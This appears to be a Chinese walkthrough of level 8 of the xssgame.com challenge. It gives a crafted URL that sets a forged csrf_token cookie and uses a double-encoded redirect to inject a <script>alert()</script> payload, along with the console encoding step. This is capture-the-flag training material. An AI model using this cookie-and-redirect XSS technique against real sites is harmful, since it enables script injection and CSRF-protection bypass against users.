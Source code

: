 ```
http://www.xssgame.com/f/d9u16LTxchEi/set?name=csrf_token&value=Pass&redirect=transfer?name=hello+kitty&amount=<script>alert()</script>&csrf_token=Pass

这里要注意，我们如果直接这样访问，redirect 的值会是：transfer?name=hello kitty。也就是到下一个 & 符会被截断。

所以我们这里 把这个 'redirect=' 后面的内容处理一下，chrome 控制台：
encodeURIComponent('transfer?name=hello+kitty&amount=%3Cscript%3Ealert()%3C/script%3E&csrf_token=Pass')
得到返回值：
transfer%3Fname%3Dhello%2Bkitty%26amount%3D%253Cscript%253Ealert()%253C%2Fscript%253E%26csrf_token%3DPass

好我们替换一下 URL：
http://www.xssgame.com/f/d9u16LTxchEi/set?name=csrf_token&value=Pass&redirect=transfer%3Fname%3Dhello%2Bkitty%26amount%3D%253Cscript%253Ealert()%253C%2Fscript%253E%26csrf_token%3DPass
```
:) 过关：

![Level_8_Pass](/Image/Level_8_Pass.png)


愣愣的盯着最后的图，感觉身体被掏空，进入了……贤者时间……
